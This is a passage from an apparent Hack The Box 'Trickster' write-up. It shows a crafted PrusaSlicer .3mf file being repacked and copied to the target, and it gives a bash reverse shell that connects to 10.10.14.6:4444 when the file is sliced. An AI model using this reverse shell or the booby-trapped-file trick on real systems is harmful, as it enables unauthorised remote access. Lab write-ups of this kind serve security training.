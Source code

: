 ![Screenshot](/assets/images/2025-02-26-Trickster-HTB-Writeup/Trickster-Writeup-HTB20241130024856.png)

```shell
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/3mfFile]
└─$ ls
 3D  '[Content_Types].xml'   Metadata   _rels   TRICKSTER.3mf
                                                                                                                   
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/3mfFile]
└─$ zip -r TRICKSTER.3mf ./*
updating: 3D/ (stored 0%)
updating: 3D/3dmodel.model (deflated 82%)
updating: [Content_Types].xml (deflated 45%)
updating: Metadata/ (stored 0%)
updating: Metadata/Slic3r_PE.config (deflated 69%)
updating: Metadata/thumbnail.png (deflated 1%)
updating: Metadata/Slic3r_PE_model.config (deflated 83%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 47%)
                                                                                                                   
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/3mfFile]
└─$ scp TRICKSTER.3mf adam@trickster:/tmp/
adam@trickster's password: 
TRICKSTER.3mf                                                                    100%  138KB   1.1MB/s   00:00    
```

Also, be sure to create a simple reverse shell script at `/tmp/rev.sh` to be executed by the 3D file upon slicing. This should look something like the following:

```shell
#!/bin/bash
/bin/sh -i >& /dev/tcp/10.10.14.6/4444 0>&1
```

